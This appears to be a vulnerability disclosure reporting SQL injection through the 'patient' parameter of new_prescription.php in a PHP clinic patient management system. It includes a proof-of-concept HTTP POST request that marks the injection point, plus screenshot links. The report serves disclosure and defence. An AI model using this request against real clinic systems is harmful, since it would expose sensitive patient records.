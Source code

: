 ## Clinic's Patient Management System has SQL injection vulnerability
## supplier
https://www.sourcecodester.com/php-clinics-patient-management-system-source-code
## Vulnerability file
/pms/new_prescription.php
## describe
Unrestricted SQL injection attacks exist in the inventory management system. The parameters that can be controlled are as follows:  patient  This function executes the patient parameter into an SQL statement without any restrictions. Malicious attackers can use this vulnerability to obtain sensitive information in the server database
## code analysis
The patient parameter in new_prescription.php is controlled and is directly carried into the SQL statement for execution, resulting in SQL injection

<img width="1296" alt="image" src="https://github.com/user-attachments/assets/f6d3187c-3986-4c61-b3c8-b1f9c48175f2">


Injection via the parameter parameter
POC
```
POST /pms/new_prescription.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 104
Origin: http://localhost
Connection: close
Referer: http://localhost/pms/new_prescription.php
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

patient=12*&visit_date=08%2F04%2F2024&next_visit_date=08%2F06%2F2024&bp=22&weight=22&disease=22&submit=
```

<img width="959" alt="image" src="https://github.com/user-attachments/assets/685146dd-e75b-49e6-b577-55f164daf0d9">


<img width="917" alt="image" src="https://github.com/user-attachments/assets/39268f96-268c-4de7-b001-bd3475e23eb3">



